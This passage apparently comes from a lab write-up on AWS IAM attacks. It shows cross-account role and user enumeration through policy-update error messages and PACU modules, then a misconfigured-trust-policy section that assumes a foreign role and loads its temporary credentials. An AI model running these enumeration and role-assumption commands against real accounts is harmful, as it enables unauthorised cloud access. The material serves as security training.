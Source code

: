 ```bash
aws iam update-assume-role-policy --role-name tlullu --policy-document file://policy.json
```

The command fails if the role doesn’t exist with the following error &rarr;

```
An error occurred (MalformedPolicyDocument) when calling the UpdateAssumeRolePolicy operation: Invalid principal in policy: "AWS":"arn:aws:iam::276384657722:role/ad-doesnotexist"
```

If the role exists, then the policy is updated successfully. This allows for role enumeration, after which they can be checked for wildcard principal for `sts:AssumeRole` by attempting to assume them. [PACU](https://github.com/RhinoSecurityLabs/pacu) does this automatically.

Adding keys to PACU and running it from the prompt as follows &rarr;

```bash
run iam__enum_roles --role-name tlullu --account-id 276384657722 --word-list /root/names
```

This gives the following identified roles and whether they can be assumed globally or not &rarr;

1. ad-crew
2. ad-flea
3. ad-ibex
4. ad-snipe
5. ad-griffon

Since this works on entities, users can also be enumerated in the same way by specifying the ARN of a user instead of a role within the policy. PACU has this under the `iam__enum_users` module. Running that modules gives the following users &rarr;

1. ad-ghoul
2. ad-guppy
3. ad-marmot
4. ad-thrush
5. ad-haddock
6. ad-foxhound
7. ad-honeybee
8. ad-terrapin

---

## Misconfigured Trust Policy

The Lab asks to assume a role in another account which can be done as follows &rarr;

```bash
awsn sts assume-role --role-arn arn:aws:iam::276384657722:role/ad-LoggingRole --role-session-name TestTanq
```

The output can be saved to a file `assumed_role`. Then the session can be used as follows &rarr;

```bash
AWS_ACCESS_KEY_ID=$(cat assumed_role|jq '.Credentials.AccessKeyId'|tr -d "\"") \
AWS_SECRET_ACCESS_KEY=$(cat assumed_role|jq '.Credentials.SecretAccessKey'|tr -d "\"") \
AWS_SESSION_TOKEN=$(cat assumed_role|jq '.Credentials.SessionToken'|tr -d "\"") \
awsn sts get-caller-identity
```

